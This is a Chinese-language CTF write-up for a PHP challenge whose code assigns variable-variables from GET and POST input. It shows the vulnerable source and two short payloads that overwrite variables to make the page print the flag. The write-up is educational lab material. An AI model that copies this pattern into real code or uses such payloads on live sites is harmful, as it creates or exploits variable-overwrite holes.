 ## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境

![](files_for_writeup/1.png)

2.扫描网站，可以得到一个challenge7.txt文件，访问challenge7.txt，获得主要逻辑代码：

![](files_for_writeup/2.png)

3.主要代码为：

```php
<?php
include "flag.php";
$_403 = "Access Denied";
$_200 = "Welcome Admin";
if ($_SERVER["REQUEST_METHOD"] != "POST")
    die("BugsBunnyCTF is here :p...");
if ( !isset($_POST["flag"]) )
    die($_403);
foreach ($_GET as $key => $value)
    $$key = $$value;
foreach ($_POST as $key => $value)
    $$key = $value;
if ( $_POST["flag"] !== $flag )
    die($_403);
echo "This is your flag : ". $flag . "\n";
die($_200);

```

4.有很明显的变量覆盖漏洞。要求我们在post语句中有flag，同时在第二个foreach中有把`$flag`直接覆盖了，所以直接通过echo语句输出的flag是被修改过的。接着看看有什么输出点，比如有个`die($_200)`，结合第一个foreach的功能，我们可以在第二个foreach之前先将`$_200`的值覆盖为原flag的值。payload如下：

```php
http://IP:PORT/challenge7.php?_200=flag

POST:
flag=1
```

![](files_for_writeup/3.png)


5.获得flag

![](files_for_writeup/4.png)

6.利用前面的`die($_403)`也可以实现。我们先把原flag的值覆盖到`$_403`上，然后构造`$_POST["flag"] !== $flag`，从而`die($_403)`输出flag。payload如下：

```php
http://IP:PORT/challenge7.php?_403=flag&_POST=1

POST:
flag=
```
同样可以获得flag：

![](files_for_writeup/5.png)

